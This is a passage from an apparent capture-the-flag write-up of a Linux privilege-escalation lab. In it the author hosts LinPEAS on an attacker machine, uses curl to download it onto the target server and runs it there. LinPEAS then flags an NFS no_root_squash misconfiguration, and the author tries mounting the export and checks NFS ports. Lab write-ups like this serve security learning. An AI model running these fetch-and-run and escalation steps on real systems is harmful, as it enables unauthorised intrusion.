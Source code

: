 This gave me 3 versions of the CustomerDetails spreadsheet. One directly in the home folder, one encrypted, and one in the zip file. They all appeared to contain the same data. So I had to keep looking. 

I spend some time looking around the server and did not find anything. So I decided to try if [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) would find something.

I started a web server on my machine. 
```bash
sudo python3 -m http.server 80
```

Then use it to download the script on the target server.  And then run it.
```bash
curl http://10.13.3.36/linpeas.sh -o linpeas.sh

chmod +x linpeas.sh
./linpeas.sh | tee linpeasRes.txt
```

Since linpeas take some time to run, and output a lot of data, I always redirect it's output to a file. This way I can go back to look at it. And I can download it to my machine. 

Note that LinPEAS produces colored text. So you can't opened it in the text editor. Use `less -r linpeasRes.txt` to read it.

LinPEAS found a possible problem with the NFS export

![LinPEAS NFS](/assets/images/2021/06/Overpass3/03-LinPEASNFS.png "LinPEAS NFS")

The [provided link](https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no_root_squash-misconfiguration-pe) has two possible exploits, one for remote, and one for local exploitation.

I tried running the remote exploit, but I couldn't connect to it. The NFS port was closed.

```bash
root@kali:~# mkdir /tmp/pe

root@kali:~# mount -t nfs target:/ /tmp/pe
mount.nfs: Connection timed out
```

I tried the local exploit, but the target machine does not have gcc installed. The page note that the remote exploit will work though a ssh tunnel, so I decided to try that first.

I looked for the port used by NFS.

```bash
[paradox@ip-10-10-237-235 ~]$ rpcinfo -p | grep nfs
    100003    3   tcp   2049  nfs
    100003    4   tcp   2049  nfs
    100227    3   tcp   2049  nfs_acl
```
